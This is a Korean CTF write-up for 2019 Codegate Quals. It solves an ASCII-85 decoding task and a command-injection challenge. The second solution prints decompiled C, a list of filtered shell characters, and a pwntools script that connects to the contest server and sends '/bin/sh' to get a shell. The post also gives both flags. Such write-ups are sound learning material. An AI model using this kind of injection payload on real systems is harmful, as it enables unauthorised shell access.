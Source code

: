 ```yaml
---
layout: post
title: 2019 Codegate Quals Writeup
author: "Realsung"
comments: true
featured: true
---
```


> 팀명 : 앙진헌띠

> 주니어부 23등



###  MIC check

9P&;gFD,5.BOPCdBl7Q+@V'1dDK?qL 를 디코딩하라고 한다.

ASCII-85 디코딩 해주면 플래그가 나온다.

![](https://user-images.githubusercontent.com/32904385/51801712-cfde7180-2284-11e9-8a03-aca7a9ee978b.png)

**FLAG : Let the hacking begins ~**

<br />

### 20000

nc 와 20000이라는 바이너리와 20000개의 .so파일이 주어진다.

20000 바이너리의 메인함수이다. 메인에서 1~20000까지 입력받는데 이 입력 받은 수의 라이브러리 파일을 불러와서 test 함수를 실행시켜준다. 그리고 쉘을 따면 될 거 같다.

![](https://user-images.githubusercontent.com/32904385/51801713-d1a83500-2284-11e9-9466-0b858c34431d.png)

```c
signed __int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  char *v3; // rax
  signed __int64 result; // rax
  void *v5; // rdi
  char *v6; // rax
  int input; // [rsp+Ch] [rbp-94h]
  void (__fastcall *v8)(void *, const char *); // [rsp+10h] [rbp-90h]
  void *handle; // [rsp+18h] [rbp-88h]
  char s; // [rsp+20h] [rbp-80h]
  int v11; // [rsp+80h] [rbp-20h]
  int v12; // [rsp+84h] [rbp-1Ch]
  unsigned __int64 v13; // [rsp+88h] [rbp-18h]

  v13 = __readfsqword(0x28u);
  print_map();
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  memset(&s, 0, 0x60uLL);
  v11 = 0;
  printf("INPUT : ", 0LL, &v12);
  __isoc99_scanf("%d", &input);
  if ( input <= 0 && input > 20000 )
  {
    printf("Invalid Input", &input);
    exit(-1);
  }
  sprintf(&s, "./20000_so/lib_%d.so", input);
  handle = dlopen(&s, 1);
  if ( handle )
  {
    v5 = handle;
    v8 = dlsym(handle, "test");
    if ( v8 )
    {
      v8(v5, "test");
      dlclose(handle);
      result = 0LL;
    }
    else
    {
      v6 = dlerror();
      fprintf(stderr, "Error: %s\n", v6);
      dlclose(handle);
      result = 1LL;
    }
  }
  else
  {
    v3 = dlerror();
    fprintf(stderr, "Error: %s\n", v3);
    result = 1LL;
  }
  return result;
}
```



하지만 문제가 20000개의 lib 파일에서 무슨 파일인지 알 수 없었다. 왜 20000개인지 알 거 같았다. 마지막 수정 일 순으로 정렬해보면 `lib_17394.so` 파일만 수정일이 오전 10시 37분이였다. 다른 .so파일들은 수정일이 오후 10시 33분이였다. 

![](https://user-images.githubusercontent.com/32904385/51801715-d53bbc00-2284-11e9-99be-09c70874a936.png)



```c
signed __int64 test()
{
  char *v0; // rax
  signed __int64 result; // rax
  char *v2; // rax
  void (__fastcall *v3)(char *, char *); // [rsp+0h] [rbp-B0h]
  void (__fastcall *v4)(char *); // [rsp+8h] [rbp-A8h]
  void *handle; // [rsp+10h] [rbp-A0h]
  void *v6; // [rsp+18h] [rbp-98h]
  char buf; // [rsp+20h] [rbp-90h]
  __int16 v8; // [rsp+50h] [rbp-60h]
  char s; // [rsp+60h] [rbp-50h]
  __int16 v10; // [rsp+90h] [rbp-20h]
  unsigned __int64 v11; // [rsp+98h] [rbp-18h]

  v11 = __readfsqword(0x28u);
  memset(&buf, 0, 0x30uLL);
  v8 = 0;
  memset(&s, 0, 0x30uLL);
  v10 = 0;
  handle = dlopen("./20000_so/lib_4323.so", 1);
  if ( handle )
  {
    v3 = dlsym(handle, "filter1");
    v6 = dlopen("./20000_so/lib_11804.so", 1);
    if ( v6 )
    {
      v4 = dlsym(v6, "filter2");
      puts("This is lib_17394 file.");
      puts("How do you find vulnerable file?");
      read(0, &buf, 0x32uLL);
      v3(&buf, &buf);
      v4(&buf);
      sprintf(&s, "%s 2 > /dev/null", &buf);
      system(&s);
      dlclose(handle);
      dlclose(v6);
      result = 0LL;
    }
    else
    {
      v2 = dlerror();
      fprintf(stderr, "Error: %s\n", v2);
      result = 0xFFFFFFFFLL;
    }
  }
  else
  {
    v0 = dlerror();
    fprintf(stderr, "Error: %s\n", v0);
    result = 0xFFFFFFFFLL;
  }
  return result;
}
```

`lib_17394.so` 를 보면 `lib_4323.so` 라이브러리의 fillter1을 실행시키고 `lib_11804.so` 라이브러리의 fillter2를 실행시켜준다. 그러면 이제 fillter만 우회해서 쉘을 따주면 될 거 같다. system(&s) 를 실행시켜주니까 저기에 쉘을 넣어주면 될 거 같다.

![](https://user-images.githubusercontent.com/32904385/51801716-d66ce900-2284-11e9-848d-62289a7de43f.png)

Exploit Code

```python
#!/usr/bin/python
# -*- coding: utf-8 -*-
from pwn import *
from ctypes import *

# testlib = CDLL('./c1e3a33d8932a4a61b0e0e0e49d6c9bc/20000_so/lib_17394.so')
"""
Filltering
; * | & $ ` > < v m p d f g l
r bash
"""
#p = process('././c1e3a33d8932a4a61b0e0e0e49d6c9bc/20000')
p = remote('110.10.147.106',15959)
print p.sendlineafter('INPUT :','17394')
print p.sendlineafter('How do you find vulnerable file?','/bin/sh')
p.interactive()
```



![](https://user-images.githubusercontent.com/32904385/51801718-d79e1600-2284-11e9-8e04-7fdd0e9f8c27.png)

**FLAG : Are_y0u_A_h@cker_in_real-word?**

